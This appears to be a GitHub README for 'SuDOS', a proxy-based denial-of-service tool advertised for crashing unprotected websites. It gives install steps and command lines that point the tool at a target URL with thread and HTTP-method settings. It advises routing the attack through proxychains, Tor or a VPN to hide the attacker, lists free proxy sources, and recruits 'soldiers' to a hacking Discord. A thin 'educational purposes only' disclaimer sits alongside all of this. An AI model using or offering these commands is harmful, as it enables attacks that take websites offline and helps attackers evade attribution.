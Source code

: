 # sudos

**SuDOS** or Super Denial of Service is a proxy-based DoS tool used to crash unprotected websites from this kind of attack. It is highly recommended to use proxychains or VPN while using this tool to hide your own IP address from proxy servers or even from your target.

**We** are in need of soldiers. Join **[CSEC](https://discord.com/invite/dZSDbjJPHx)** for more free powerful tools. We also teach **anonimity**, **hacking** and **programming** for free!

Also, thanks to https://openproxy.space/list for providing these proxy lists for free!

# Disclaimer
- This tool is for educational purposes only.
- I will not be responsible for any damage this tool cause. Use it at your own risk!
- This tool is in early version. Many bugs may occur!

# Installation
Please copy and paste the step-by-step commands below to successfully install **SuDOS** in your computer. I will not be providing how to install [Python](https://python.org/) in your computer. Do some research!
```
git clone https://github.com/lilmond/sudos.git
pip install -r requirements.txt
```
You can put `sudos.py` to `/usr/local/bin/` with root and just remove the file extension to run the script globally. And don't forget to give it access using `chmod`.

# Usage examples
## Basic commands
Sets socket connection timeout to 5
```
python sudos.py "https://example.com/path/page.php?parameter=parameter_value" ./proxies/http/1.txt http --timeout 5
```

Sets max threads to 100
```
python sudos.py "https://example.com/path/page.php" ./proxies/socks5/2.txt socks5 -t 100
```

Sets HTTP method to POST
```
python sudos.py "https://example.com/path/page.php" ./proxies/socks4/1.txt socks4 -m POST
```
## Increase anonymity commands
Basic usage of **proxychains**
```
proxychains4 -q python sudos.py "http://example.com/" ./proxies/socks4/1.txt socks4
```
**SuDOS** with **Torify**
```
torify -q python sudos.py "http://example.com/" ./proxies/http/1.txt http
```

# Screenshots
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_1.jpg" width=300/>
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_5.jpg" width=300/>
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_4.png" width=300/>

# Where do I get proxy lists?
Just click the links below and find a best proxy list for yourself.
- https://openproxy.space/list
- https://www.proxy-list.download/
- https://www.proxyscrape.com/free-proxy-list
